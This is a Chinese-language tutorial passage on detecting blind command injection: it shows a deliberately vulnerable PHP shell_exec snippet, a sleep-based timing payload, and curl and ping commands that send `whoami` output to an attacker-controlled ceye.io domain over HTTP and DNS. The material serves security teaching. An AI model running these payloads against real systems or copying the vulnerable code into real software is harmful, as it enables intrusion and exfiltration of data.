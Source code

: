 

##### 无回显情况

命令执行可能会存在没有回显的情况。这时要判断命令是执行，有三种方法。

1. 延时

   通过sleep命令来进行延时

   例子：

   ```php
   <?php
       shell_exec($_GET['a']);
   ?>
   ```

   访问：

   ```
   http://localhost/demo.php?a=sleep 3
   ```

2. HTTP请求

   首先要有一台公网可通信的机子，目标通过向这个机子发起http请求，当该机子收到http请求时，说明命令执行成功。

   如果没有一台公网机子的话，可以去ceye注册一个账号。

   注册了以后他会分配一个3级域名给你，通过向这个域名发起http请求可以将命令执行的数据带出

   例子：

   ```
   root@DESKTOP-10M601S:/home# curl http://vlut7q.ceye.io/`whoami`
   {"meta": {"code": 201, "message": "HTTP Record Insert Success"}}
   ```

   ![image-20200523211052128](/images/image-20200523211052128.png)

   一般使用http请求带出的数据最好经过base64编码一下。

   ```
   root@DESKTOP-10M601S:/home# curl http://vlut7q.ceye.io/`whoami|base64`
   ```

   

3. 使用DNS通道带出

   如果请求的目标不是ip地址而是域名，那么域名最终还要转化成ip地址，就肯定要做一次域名解析请求。那么假设我有个可控的二级域名，那么它发出三级域名解析的时候，我这边是能够拿到它的域名解析请求的，这就相当于可以配合DNS请求进行命令执行的判断，这一般就被称为dnslog。 

   这里用的同样是ceye ，通过ping命令来发起dns请求

   ```
   root@DESKTOP-10M601S:/home# ping `whoami`.vlut7q.ceye.io
   ```
